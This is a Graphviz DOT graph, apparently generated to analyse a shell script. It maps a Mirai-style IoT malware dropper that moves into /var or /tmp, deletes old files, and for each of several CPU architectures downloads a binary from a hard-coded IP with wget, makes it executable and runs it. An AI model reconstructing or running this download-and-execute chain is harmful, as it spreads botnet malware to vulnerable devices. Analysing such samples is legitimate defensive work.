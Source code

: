 digraph {
118 [label="cd /var "];
118 -> 120 [label="SC,(,"];
120 [label="cd /tmp "];
120 -> 4 [label="||,"];
4 [label="rm -rf qoH8SotBDj mips armv4l mipsel armv5l armv6l armv7l sh4 x64 "];
4 -> 118 [label=";,"];
118 [label="cd /var "];
118 -> 120 [label="),;,SC,(,"];
120 [label="cd /tmp "];
120 -> 10 [label="||,"];
10 [label="wget http://185.128.43.214/mips "];
10 -> 12 [label=";,"];
12 [label="cat mips qoH8SotBDj "];
12 -> 112 [label=";,"];
112 [label="qoH8SotBDj "];
112 -> 112
114 [label="chmod +x qoH8SotBDj "];
114 -> 116 [label=";,"];
116 [label="./qoH8SotBDj "];
116 -> 118 [label=";,"];
118 [label="cd /var "];
118 -> 120 [label="),||,SC,(,"];
120 [label="cd /tmp "];
120 -> 24 [label="||,"];
24 [label="wget http://185.128.43.214/armv4l "];
24 -> 26 [label=";,"];
26 [label="cat armv4l qoH8SotBDj "];
26 -> 112 [label=";,"];
112 [label="qoH8SotBDj "];
112 -> 112
114 [label="chmod +x qoH8SotBDj "];
114 -> 116 [label=";,"];
116 [label="./qoH8SotBDj "];
116 -> 118 [label=";,"];
118 [label="cd /var "];
118 -> 120 [label="),||,SC,(,"];
120 [label="cd /tmp "];
120 -> 38 [label="||,"];
38 [label="wget http://185.128.43.214/mipsel "];
38 -> 40 [label=";,"];
40 [label="cat mipsel qoH8SotBDj "];
40 -> 112 [label=";,"];
112 [label="qoH8SotBDj "];
112 -> 112
114 [label="chmod +x qoH8SotBDj "];
114 -> 116 [label=";,"];
116 [label="./qoH8SotBDj "];
116 -> 118 [label=";,"];
118 [label="cd /var "];
118 -> 120 [label="),||,SC,(,"];
120 [label="cd /tmp "];
120 -> 52 [label="||,"];
52 [label="wget http://185.128.43.214/armv7l "];
52 -> 54 [label=";,"];
54 [label="cat armv7l qoH8SotBDj "];
54 -> 112 [label=";,"];
112 [label="qoH8SotBDj "];
112 -> 112
114 [label="chmod +x qoH8SotBDj "];
114 -> 116 [label=";,"];
116 [label="./qoH8SotBDj "];
116 -> 118 [label=";,"];
118 [label="cd /var "];
118 -> 120 [label="),||,SC,(,"];
120 [label="cd /tmp "];
120 -> 66 [label="||,"];
66 [label="wget http://185.128.43.214/armv5l "];
66 -> 68 [label=";,"];
68 [label="cat armv5l qoH8SotBDj "];
68 -> 112 [label=";,"];
112 [label="qoH8SotBDj "];
112 -> 112
114 [label="chmod +x qoH8SotBDj "];
114 -> 116 [label=";,"];
116 [label="./qoH8SotBDj "];
116 -> 118 [label=";,"];
118 [label="cd /var "];
118 -> 120 [label="),||,SC,(,"];
120 [label="cd /tmp "];
120 -> 80 [label="||,"];
80 [label="wget http://185.128.43.214/armv6l "];
80 -> 82 [label=";,"];
82 [label="cat armv6l qoH8SotBDj "];
82 -> 112 [label=";,"];
112 [label="qoH8SotBDj "];
112 -> 112
114 [label="chmod +x qoH8SotBDj "];
114 -> 116 [label=";,"];
116 [label="./qoH8SotBDj "];
116 -> 118 [label=";,"];
118 [label="cd /var "];
118 -> 120 [label="),||,SC,(,"];
120 [label="cd /tmp "];
120 -> 94 [label="||,"];
94 [label="wget http://185.128.43.214/sh4 "];
94 -> 96 [label=";,"];
96 [label="cat sh4 qoH8SotBDj "];
96 -> 112 [label=";,"];
112 [label="qoH8SotBDj "];
112 -> 112
114 [label="chmod +x qoH8SotBDj "];
114 -> 116 [label=";,"];
116 [label="./qoH8SotBDj "];
116 -> 118 [label=";,"];
118 [label="cd /var "];
118 -> 120 [label="),||,SC,(,"];
120 [label="cd /tmp "];
120 -> 108 [label="||,"];
108 [label="wget http://185.128.43.214/x64 "];
108 -> 110 [label=";,"];
110 [label="cat x64 qoH8SotBDj "];
110 -> 112 [label=";,"];
112 [label="qoH8SotBDj "];
112 -> 112
114 [label="chmod +x qoH8SotBDj "];
114 -> 116 [label=";,"];
116 [label="./qoH8SotBDj "];
116 -> 118 [label=";,"];
118 [label="cd /var "];
118 -> 120 [label="),;,SC,(,"];
120 [label="cd /tmp "];
120 -> 121 [label="||,"];
}
